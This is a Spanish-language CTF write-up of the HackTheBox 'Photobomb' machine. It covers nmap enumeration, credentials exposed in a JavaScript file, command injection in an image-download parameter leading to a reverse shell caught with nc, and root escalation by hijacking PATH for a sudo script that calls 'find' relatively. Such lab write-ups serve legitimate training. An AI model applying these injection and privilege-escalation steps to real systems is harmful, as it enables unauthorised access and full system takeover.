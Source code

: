 ```yaml
---
title: HackTheBox Photobomb Writeup
published: true
---
```


La máquina Photobomb es una máquina de HackTheBox en la que mediante la explotación de esta conseguiremos la flag del usuario y la de root.


# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar las seis primeras preguntas: 

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
❯ nmap -p- --open --min-rate 5000 -n -vvv 10.10.11.182 -oG puertos
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-02 14:36 EDT
Initiating Ping Scan at 14:36
Scanning 10.10.11.182 [2 ports]
Completed Ping Scan at 14:36, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:36
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed Connect Scan at 14:37, 11.59s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received syn-ack (0.047s latency).
Scanned at 2022-11-02 14:36:48 EDT for 12s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds
```

Tenemos dos puertos abiertos, analizaremos la versión y servicio de los mismos con nmap para intentar sacar más información:

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-02 14:38 EDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

Por ahora no vemos mucho más, nos metemos en la web y nos reporta una página con rexto y un panel de autentificación. Al inspeccionar la página observamos que existe un archivo .js en el que podemos acceder con un link directamente logeados.

> document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');

Al entrar vemos que nos podemos descargar imágenes con formato .jpg y .png

Interceptamos con burpsuite la petición y aparece la extensión png 

> POST /printer HTTP/1.1
> Host: photobomb.htb
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 78
> Origin: http://photobomb.htb
> Authorization: Basic cEgwdDA6YjBNYiE=
> Connection: close
> Referer: http://photobomb.htb/printer
> Upgrade-Insecure-Requests: 1
>
> photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png&dimensions=3000x2000


# [](#header-1)Acceso al sistema

Tras esta podemos añadir : y una reverse shell pero deberá de estar en formato URL para que sea una línea.

-> <a href="https://www.revshells.com/">REVSHELLS</a>

Mandamos la petición al Repeater y le damos a send.

En nuestro equipo deberemos de ponernos en escucha con nc:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.156] from (UNKNOWN) [10.10.11.182] 44616
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ whoami
whoami
wizard
```

Obtenemos la flag del usuario.

# [](#header-1)Escalada de privilegios

Hacemos sudo -l para ver qué podemos ejecutar como root y nos reporta lo siguiente:

```bash
wizard@photobomb:~$ sudo -l     
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Esto quiere decir que podemos cambiar el path y ejecutar /opt/cleanup.sh

Lo abrimos para ver que comandos ejecuta y vemos que usa el comnado find de manera relativa.

```bash
wizard@photobomb:/opt$ cat cleanup.sh
cat cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Podemos crear un archivo find que contenga bash, darle permisos de ejecución y ejecutar el script cambiando la variable path:

```bash
wizard@photobomb:~$ echo bash > find
echo bash > find
wizard@photobomb:~$ ls
ls
find
photobomb
temp
trepi
user.txt
wizard@photobomb:~$ chmod +x find
chmod +x find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

Conseguimos así la flag de root en /root/root.txt

Muchas gracias por leer este writeup, espero que te haya gustado!
